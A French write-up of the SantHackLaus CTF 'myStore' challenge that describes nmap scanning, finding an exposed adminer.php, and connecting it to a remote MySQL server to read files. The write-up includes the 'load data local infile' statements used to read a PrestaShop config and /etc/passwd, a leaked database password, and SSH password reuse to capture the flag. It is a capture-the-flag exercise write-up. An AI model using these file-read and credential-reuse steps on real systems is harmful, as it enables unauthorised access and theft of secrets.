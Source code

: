 # Write Up SantHackLaus ! 

Yo tout le monde ! Le CTF SantHackLaus est fini et voici mon write up pour celui ci !
Juste je n'ai pas finis le chall car j'avais la flemme ou plutôt que je n'ai pas la patience nécessaire: à l'étape de l'éscalade de privilège j'ai ragé et tout arrêté. Je n'ai donc fais que le Part 1.

Alors voici la traduction (merci Google) de l'énoncé du challenge:

```
L'un de vos amis souhaite lancer sa boutique en ligne sur https://mystore.santhacklaus.xyz.
Vous l'avez rapidement informé des principes de base de la sécurité informatique et il vous assure que 
il a suivi tous vos conseils. Réalisez votre audit et montrez-lui que sa plateforme est
pas correctement fixé!
```

J'ai donc commencé par lancer un scan avec nmap sur mystore.santhacklaus.xyz
```
(nmap -A )

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 47:df:ea:a5:95:38:bb:0c:79:9e:40:ce:f7:20:15:a2 (RSA)
|   256 d6:d5:15:90:25:18:d0:0c:d9:d1:b0:33:7f:84:20:7e (ECDSA)
|_  256 62:fa:22:28:18:ad:c5:fa:8b:13:d4:fe:be:3b:f9:e9 (ED25519)
80/tcp  open  http     nginx
|_http-title: Did not follow redirect to https://mystore.santhacklaus.xyz/
443/tcp open  ssl/http nginx
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 81 disallowed entries (15 shown)
| /*?order= /*?tag= /*?id_currency= /*?search_query=
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=
| /*&search_query= /*&back= /*&n= /*controller=addresses
|_/*controller=address /*controller=authentication
| http-title: myStore
|_Requested resource was https://mystore.santhacklaus.xyz/index.php
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: commonName=mystore.santhacklaus.xyz
| Subject Alternative Name: DNS:mystore.santhacklaus.xyz
| Not valid before: 2019-12-02T11:14:43
|_Not valid after:  2020-03-01T11:14:43
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   h2
|_  http/1.1
| tls-nextprotoneg:
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.43 seconds
```

Il n'y a rien d'interessant, continuons sur l'énumération du serveur web, j'ai d'abord testé plusieur vulnérabilité sur Pretashop mais rien ne marchais.
J'ai donc essayer de fuzz d'abord avec medium directory wordlist. Je ne trouve rien. Là dégouté je laisse tombé le chall puis y reviens demain.
Je tente un peu au hasard common directory wordlist et la je trouve un truc interessante: "adminer.php". Adminer est un outil d'administration ph et SQL (encore merci Google).
Ce qui est interessant ici c'est que nous pouvons nous connecter à n'importe quel serveur MySQL. Google nous sauve encore "Free Hosting MySQL".
On crée donc un serveur SQL puis on se connecte depuis adminer dessus. 

A partir de la on peut lire n'importe quel fichier dont on a le droit de lecture avec les commandes SQL suivantes:
```
        load data local infile 'la/votre/file'
        into table truc
        fields terminated by "\n"
```

On sait que c'est du Pretashop et je me suis documenté dessus sur internet et le fichier app/config/parameters.php est très interessant 
on lance donc:
```
        load data local infile 'app/config/parameters.php'
        into table truc
        fields terminated by "\n"
```

Un truc nous interesse tout d'un coup 
```
'database_password' => 'KA6$g@Tx0{(Si4bR3DT4'
```
On a un mot de passe mais pas de user je test admin, ça marche pas, coup de rage je vais faire une partie de foot avec mon petit frère et je reviens.
La je fais un peu de pwn (je tentais le String Oriented Programming pour les curieux ) puis j'ai une idée que j'aurai du avoir plus tôt : Normalement c'est un reflexe ! J'essaie de récuperer /etc/passwd

```
        load data local infile '/etc/passwd'
        into table truc
        fields terminated by "\n"
```

Ici je me connecte a la base SQl en localhost depuis Adminer avec un username que l'on voit dans /etc/passwd : "john" et le mot de passe trouvé avant : "KA6$g@Tx0{(Si4bR3DT4"
Je trouve rien d'interessant. Je rage encore. Je reviens après et je me rappelle que le port 22 était ouvert en SSH !! Je test et oui !! Il avait utilisé le même mot de passe ! 

````cat flag.txt```

Et la le plaisir de voir aparaître le flag: SANTA{That-W4Z/a/C0ol-CV3!}
